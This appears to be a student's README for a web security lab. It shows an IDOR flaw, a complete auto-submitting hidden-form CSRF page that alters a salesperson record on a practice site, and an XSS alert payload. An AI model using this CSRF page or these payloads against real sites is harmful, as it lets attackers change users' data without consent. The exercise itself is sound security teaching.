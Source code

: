 <img src="https://media.giphy.com/media/1fhbK4IgmmXoIMmi1D/giphy.gif" width="800">



## Red

Vulnerability #1: **Insecure Direct Object Reference (IDOR)**

The red site has an IDOR vulnerability.  In the Salespeople list, Lazy Lazyman with the ID number 11 who has been fired for stealing can be searched by in the public salespeople list whereas the other two sites redirect the attacker back to the list of salespeople to prevent the information leak. 

<img src="https://media.giphy.com/media/pVR9DU6wkhnSPWgXxM/giphy.gif" width="800">


Vulnerability #2: **Cross-Site Request Forgery (CSRF)**

The attacker can trick the admin by sending a blank page link that contains a hidden form: 

    <html>
      <head>
        <title>Blank Page</title>
      </head>
      <body onload="document.CSRF.submit()">
        <form action="https://xx.xxx.xxx.xxx/red/public/staff/salespeople/edit.php?id=8" method="post" style="display: none;" name='CSRF' target="res">
            <input type="text" name="first_name" value="Kim Stanley" />
              <input type="text" name="last_name" value="WAS HACKED!!!" />
              <input type="text" name="phone" value="555-302-7805" />
              <input type="text" name="email" value="kstanley@hacked.com" />
        </form>
        <iframe name="res" style="display: none;"></iframe>
      </body>
    </html>

The information of the salesperson with id number 8 (Kim Stanley) gets modified as soon as the admin loads the blank page. 

<img src="https://media.giphy.com/media/ce28dAryRIbf10YOBS/giphy.gif" width="800">


## Notes

**Green:Vulnerability #2:** For the first time instead of trying <script>alert('Mahshid found the XSS!');</script> I inpute <script>alert("XSS")</script>. I was not able to remove the feeback after I submited, and to avoid the confusion since I 
received "XSS" alert before "Mahshid found the XSS" I created the Gif based on the first tried!

<img src="https://media.giphy.com/media/3eP3jTnna3KoPv3wzy/giphy.gif" width="800">

## License

    Copyright [2018] [Mahshid Mehrayin]
